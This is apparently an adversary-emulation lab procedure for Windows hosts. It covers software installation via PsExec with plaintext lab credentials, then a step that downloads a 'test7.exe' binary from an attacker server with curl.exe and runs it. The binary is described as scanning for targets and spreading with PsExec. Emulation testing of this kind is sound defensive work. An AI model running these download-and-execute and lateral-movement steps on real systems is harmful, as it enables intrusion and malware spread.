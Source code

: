 * Search for PowerShell then right-click to Run as Administrator

* Open Notepad and save the following to the Desktop as `install_software.bat`
(save your file with type "All Files (*.*)" to ensure your .bat extension is
saved correctly):

    ```cmd
    choco install -y notepadplusplus
    choco install -y adobereader
    ```

* From PowerShell, execute the batch script using PsExec against the workstations
in the range:

    ```psh
    $computers="10.222.25.61","10.222.25.62";
    foreach ($computer in $computers){
    psexec \\$computer -s -u sonicbeats37.fm\sooyoung -p Dental-Crew -c "C:\users\sooyoung\Desktop\install_software.bat";
    }
    ```

### :hammer: Setup

:arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, RDP into the
victim host `bts (10.222.25.61)` as `sonicbeats37.fm\sooyoung`.

| Hostname | Username | Password |
| -------- | -------- | -------- |
| bts.sonicbeats37.fm | sonicbeats37.fm\sooyoung | Dental-Crew |

* Search for Command Prompt and right-click to Run As Administrator then execute
the following command to download the test binary from the attacker server:

```cmd
curl.exe --output "C:\Windows\Temp\test7.exe" http://off1ce-p4p4r.co.uk/files/test7.exe
```

* In the Command Prompt window, change directories to the directory
containing the `test7.exe` binary.

```cmd
cd C:\Windows\Temp
```

### :biohazard: Procedures

* Execute the test binary

```cmd
C:\Windows\Temp\test7.exe
```

* If the command prompt window remains open, look through the terminal output to
confirm that NetBIOS scanning found at least 1 target and that PsExec was
successfully dropped and executed against the target hosts.
